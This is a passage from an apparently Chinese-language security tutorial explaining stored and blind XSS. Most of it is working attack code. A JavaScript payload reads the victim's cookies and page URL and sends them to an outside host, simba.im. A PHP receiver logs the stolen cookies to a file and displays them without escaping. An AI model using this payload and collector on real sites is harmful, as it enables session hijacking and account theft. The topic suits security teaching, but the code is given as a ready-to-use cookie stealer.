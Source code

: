 ## 存储XSS 是什么
持久型XSS（Persistent）又叫做存储XSS（Stored XSS），与非持久型XSS相反，它是指通过提交恶意数据到存储器（比如数据库、文本文件等），Web应用程序输出的时候是从存储器中读出恶意数据输出到页面的一类跨站脚本漏洞（csrf 写 + self-xss = 存储 xss）。 
存储型XSS，输出的位置不一定出现在输入的位置，很难依赖于扫描自动发现（请求后从此页面/refer开始爬，看是否能触发）。比如说客户端app输入的位置，可能在app 其他输出地方才会触发，或者需要分享到网页版才能触发。  
更多时候是利用盲打的思想，XSS 盲打后台（其实最简单的就一个 js 弹cookie 请求到一个 服务端接收的 php ），代码如下所示：  
``` javascript 
(function() {
  (new Image()).src='http://simba.im/js/xss.php?cookie='+
  escape(
    (function() {
      try {
        return document.cookie
      } catch (e) {
        return ''
      }
    })()
    )+'&location='+
  escape(
    (function() {
      try {
        return document.location.href
      } catch (e) {
        return ''
      }
    })()
    );
})();
```
``` php
<?php
    if(isset($_REQUEST['cookie']) && isset($_REQUEST['location'])) 
    {
        $cookie = $_REQUEST['cookie'];
        $location = $_REQUEST['location'];
        $stri = "<td>".date(DATE_ATOM)."</td><td>Cookie:".$cookie."</td><td>Location:".$location."</td>";
        $fp = file_put_contents("xss.txt", $stri."\n", FILE_APPEND);
    }

    $fp = file_get_contents("xss.txt");
    $data = (explode("\n", $fp));
    echo "<table bode=\"1\">";
    foreach($data as $key => $value)
    {
        if ($value == "")
        {
            continue;
        }
        echo "<tr><td>".($key)."</td>".$value."</tr>";
    }
    echo "</table>";
?>
```

